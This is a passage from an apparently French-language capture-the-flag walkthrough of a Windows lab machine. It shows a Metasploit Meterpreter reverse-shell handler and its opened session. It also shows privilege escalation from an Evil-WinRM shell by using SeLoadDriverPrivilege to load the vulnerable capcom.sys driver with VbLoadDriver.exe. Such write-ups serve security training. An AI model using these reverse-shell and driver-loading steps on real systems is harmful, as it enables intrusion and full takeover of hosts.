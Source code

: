 ```bash
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.10.14.35
lhost => 10.10.14.35
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.35:443 
[*] Sending stage (180291 bytes) to 10.10.10.193
[*] Meterpreter session 1 opened (10.10.14.35:443 -> 10.10.10.193:55890) at 2020-07-01 09:56:48 -0400

meterpreter > 
```

![](/assets/img/image-20200701161904745.png)



### Alternative VbLoadDriver.exe

En alternative au code EoPLoadDriver.cpp en c++, il existe une version dotnet : VbLoadDriver.exe

https://github.com/VbScrub/VbLoadDriver/raw/master/VbLoadDriver.exe

On upload... Puis il nous faut le SID de l'utilisateur :

```bash
*Evil-WinRM* PS C:\users\svc-print\Documents> get-aduser svc-print


DistinguishedName : CN=svc-print,CN=Users,DC=fabricorp,DC=local
Enabled           : True
GivenName         :
Name              : svc-print
ObjectClass       : user
ObjectGUID        : d3482aa7-6cd7-4547-83c5-74ed2bc605fd
SamAccountName    : svc-print
SID               : S-1-5-21-2633719317-1471316042-3957863514-1104
Surname           :
UserPrincipalName :
```



```bash
*Evil-WinRM* PS C:\users\svc-print\Documents> .\VbLoadDriver.exe HKU\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService C:\users\svc-print\Documents\capcom.sys
VbLoadDriver
http://vbscrub.com

Attempting to enable SeLoadDriverPrivilege...
Successfully enabled privilege
Creating registry values...
Successfully created registry values
Loading driver...
Successfully loaded driver
*Evil-WinRM* PS C:\users\svc-print\Documents> 

```



[^2]: https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp
[^1]: https://github.com/tandasat/ExploitCapcom
